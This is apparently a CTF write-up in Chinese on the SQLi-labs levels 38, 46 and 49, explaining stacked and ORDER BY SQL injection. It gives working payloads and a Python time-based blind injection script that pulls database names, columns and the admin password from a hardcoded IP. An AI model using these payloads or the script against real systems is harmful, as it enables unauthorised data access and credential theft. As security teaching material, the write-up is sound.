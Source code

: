 ```yaml
---
title: SQLi-labs Stacked Injection
tags:
  - Writeup
  - CTF
date: 2019-05-25 17:25:00
---
```


## Stacked injection*

堆叠注入(Stacked injection)，简而言之就是通过在可控输入点传送恶意语句从而执行多条(任意)SQL语句的注入方式。

- 原理: 使用分隔符(;)来表示一条sql语句的结束，插入新的执行语句。
- 局限性: 并不是每一个环境下都可以执行，可能受到API或者数据库引擎不支持的限制，当然了权限不足也可以解释为什么攻击者无法修改数据或者调用一些程序，同时堆叠注入产生的错误或结果一般不能在前端环境获取回显信息。

与联合注入(Union injection)的区别在于联合注入的语句类型有限，一般用来执行查询语句，而堆叠注入可执行任意语句。支持堆叠查询的服务：

|             | SQL Server | MySQL | PostgreSQL | Oracle | MS Access |
| :---------: | :--------: | :---: | :--------: | :----: | :-------: |
|   **ASP**   |     √      |       |            |        |     ×     |
| **ASP.NET** |     √      |       |            |        |     ×     |
|   **PHP**   |     √      |       |     √      |        |     ×     |
|  **JAVA**   |            |       |            |   ×    |     ×     |



## Less 38

Description: GET / Stacked Query Injection / String

Payload:

```sql
?id=1';insert into users(id,username,password) values ('40','test','hello world')--+
# id = 40
# Your Username is : test
# Your Password is : hello world
```



## Order by injection

```sql
$sql = "SELECT * FROM users ORDER BY $sort";
```

参见`MySQL SELECT`格式规范:

```sql
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}, ... [WITH ROLLUP]]
    [HAVING where_condition]
    [WINDOW window_name AS (window_spec)
        [, window_name AS (window_spec)] ...]
    [ORDER BY {col_name | expr | position} #字段名/表达式/字段的位置(整形)
      [ASC | DESC], ... [WITH ROLLUP]] #修饰符升序ASC(默认)/降序DESC
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR {UPDATE | SHARE} [OF tbl_name [, tbl_name] ...] [NOWAIT | SKIP LOCKED] 
      | LOCK IN SHARE MODE]]
```

常见的注入方式:

**1.Blind based**

- 字段名已知

  if(1<2, id, username), 条件判断后需要选择字段名，而不能是字段的位置，因为IF函数中整形数据会以字符的形式返回，如if(true, 1, 2)将返回'1', **order by 'xxx' 时将按默认排列显示结果**。

  ```sql
  # case when
  CASE when(true) then id else username end
  # if
  if((select ascii(substr(group_concat(table_name), %d, 1)) \
  from information_schema.tables where table_schema=database())%s%d, id, username)
  ```

- 字段名未知

  **(1)触发mysql错误进行盲注**

  ```sql
  # if cur_database[0] = 'a' -> false -> 
  # select x -> Unknown column 'x' in 'field list' -> Error
  if(ascii(substr((select database()), 1, 1))!=97, 1, (select x))
  ```

  此时即可根据查询结果是否为空，来判断条件的真假。

  **(2)基于时间的盲注**

  ```sql
  1 and if(ascii(substr((select database()), 1, 1))=97, sleep(3), 1)
  ```

  **(3)基于rand()的盲注**

  ```sql
  mysql> select * from users order by rand(1) / rand(0);
  +----+----------+------------+                +----+----------+------------+
  | id | username | password   |                | id | username | password   |
  +----+----------+------------+                +----+----------+------------+
  | 11 | admin3   | admin3     |                |  1 | Dumb     | Dumb       |
  |  5 | stupid   | stupidity  |                |  7 | batman   | mob!le     |
  |  4 | secure   | crappy     |                |  4 | secure   | crappy     |
  |  3 | Dummy    | p@ssword   |                | 12 | dhakkan  | dumbo      |
  | 12 | dhakkan  | dumbo      |                |  8 | admin    | admin      |
  |  9 | admin1   | admin1     |                |  2 | Angelina | I-kill-you |
  |  8 | admin    | admin      |                |  3 | Dummy    | p@ssword   |
  | 10 | admin2   | admin2     |                |  6 | superman | genious    |
  |  1 | Dumb     | Dumb       |                |  5 | stupid   | stupidity  |
  |  7 | batman   | mob!le     |                | 10 | admin2   | admin2     |
  | 14 | admin4   | admin4     |                | 14 | admin4   | admin4     |
  |  2 | Angelina | I-kill-you |                | 11 | admin3   | admin3     |
  |  6 | superman | genious    |                |  9 | admin1   | admin1     |
  +----+----------+------------+                +----+----------+------------+
  13 rows in set (0.00 sec)                     13 rows in set (0.00 sec)
  ```

  order by rand(true/false)中的true(1)和false(0)会作为rand()的种子生成不同的随机数进行排序，可以根据结构的不同来判断条件为真或假。

  ```sql
  rand(ascii(substr((select database()), 1, 1))=97)
  ```

**2.Error based**

payload:

```sql
# XPATH
(updatexml(1,concat(0x7e,(select database()),0x7e),1))
1 and updatexml(1,concat(0x7e,(select database()),0x7e),1)
# XPATH syntax error: '~security~'
```



## Less 46



Description:  GET / Error based / Numeric / Order by clause

sort=1 与 sort=2-1回显相同,**sort**=`1 asc / 1 desc`回显数据排序不同，猜测存在order by注入点~

```php
$id=$_GET['sort'];
$sql = "SELECT * FROM users ORDER BY $id";
```

payload:

```sql
# Error based
updatexml(1,concat(0x7e,(select database()),0x7e),1)
#  XPATH syntax error: '~security~'	
```



## Less 49*



Description: GET / Error based / String / Blind / Order by clause



闭合方式为单引号`'`，这里使用基于时间的盲注，payload如下:



```python
# -*- coding: utf-8 -*-
import time
import requests
from urllib.parse import quote_plus

main_url = 'http://43.247.91.228:84/Less-49/?sort='

# payload
cur_db_name_ = '1\' and if(ascii(substr(database(),%d,1))%s%d, sleep(2), 1)-- '
cur_db_tabs_ = '1\' and if(ascii(substr((select group_concat(table_name) '\
    'from information_schema.tables '\
        'where table_schema=database()), %d, 1))%s%d, sleep(2), 0)-- '
columns_ = '1\' and if(ascii(substr((select group_concat(column_name) '\
    'from information_schema.columns '\
        'where table_schema=database() '\
            'anandd table_name=\'users\'), %d, 1))%s%d, sleep(2), 0)-- '
password_ = '1\' and if(ascii(substr((select password '\
    'from users where username=\'admin\'),%d,1))%s%d, sleep(2), 0)-- '


def check(query_string):
    url = main_url + quote_plus(query_string)
    try:
        html = requests.get(url, timeout=0.15)
    except:
        return True
    return False

def search(payload):
    print('[*]' + payload)
    result = ''
    print('[~]', end = '')
    for i in range(1, 100):
        left = 33
        right = 127
        #binary search
        while left <= right:
            mid = (left + right) // 2
            s = payload % (i, '=', mid)
            if check(s):
                result += chr(mid)
                print(chr(mid), end = '')
                break
            else:
                s = payload % (i, '>', mid)
                if check(s):
                    left = mid + 1
                else:
                    right = mid - 1
        if left > right:
            break
    print()
    return result

if __name__=="__main__":
    cur_db_name = search(cur_db_name_)
    print('[+]current_db:' + cur_db_name)
    cur_db_tabs = search(cur_db_tabs_)
    print('[+]tables:' + cur_db_tabs)
    columns = search(columns_)
    print('[+]users columns:' + columns)
    password = search(password_)
    print('[+]admin password:' + password)
```

